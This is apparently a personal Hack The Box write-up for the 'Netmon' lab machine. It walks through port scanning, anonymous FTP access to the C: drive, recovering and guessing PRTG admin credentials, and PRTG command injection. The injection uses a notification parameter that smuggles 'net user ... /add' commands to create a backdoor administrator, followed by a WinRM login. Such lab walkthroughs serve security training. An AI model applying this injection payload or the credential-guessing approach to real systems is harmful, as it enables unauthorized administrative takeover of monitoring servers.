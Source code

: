 # HTB - Netmon

#### Ip: 10.10.10.152
#### Name: Netmon
#### Rating: Easy

----------------------------------------------------------------------

Netmon.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 13:15 CDT
Warning: 10.10.10.152 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.152
Host is up (0.071s latency).
Not shown: 65491 closed tcp ports (reset), 31 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.96 seconds
```

Lets also use the `-sC` and `-sV` flags to use Nmap basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ sudo nmap -sC -sV -T4 10.10.10.152 -p 21,80,135,139,445,5985,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 13:16 CDT
Nmap scan report for 10.10.10.152
Host is up (0.066s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-09T18:17:06
|_  start_date: 2023-08-09T18:14:16
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.65 seconds
```

Cool, looks like FTP has anonymous access enabled and it contains what appears to be the `C:\` drive? Always a winning combo.

Lets check that out first:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:ryan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49866|)
150 Opening ASCII mode data connection.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49867|)
150 Opening ASCII mode data connection.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49868|)
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
08-09-23  02:14PM                   34 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||49871|)
150 Opening ASCII mode data connection.
100% |********************************************************************************|    34        0.48 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.48 KiB/s)
```

Wow, we were able to grab the user.txt flag:

user_flag.png

Browsing around a bit more we find some interesting configuration files for the PRTG Network Monitor. Lets use the `get` command to bring these back locally for inspection.

Checking out the PRTG Configuration.old.bak file, we find some credentials:

creds.png

Navigating to the website on port 80 we find a login for PRTG Network Monitor. Lets try the credentials here:

fail.png

Hmm, these aren't working here. I did notice that the password has the year 2018 in it. Maybe the password we found was old and the admin got lazy and just changed the password up a year? Lets try PrTg@dmin2019

Nice, that worked!

in.png

This version of PRTG is vulnerable to command injection. We can exploit this by heading over to the Notifications section in Account Settings and selecting "Add New Notification."

From there we can scroll down to the Execute Program feature and enable it. We can select the .ps1 script and then add in the Parameter field:

```text
test.txt;net user howdy Password123! /add;net localgroup administrators howdy /add
```

I can now hit Save and make sure my new notification is active:

active.png

Once this is done we can click on the bell icon to test the notification (ie add our user).

Once completed lets use CrackMapExec to make sure our user has been added:

cme.png

Cool, we can now log on to the box to grab the last flag:

```text
┌──(ryan㉿kali)-[~/HTB/Netmon]
└─$ evil-winrm -i 10.10.10.152 -u howdy -p Password123!
```

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------------------------------------


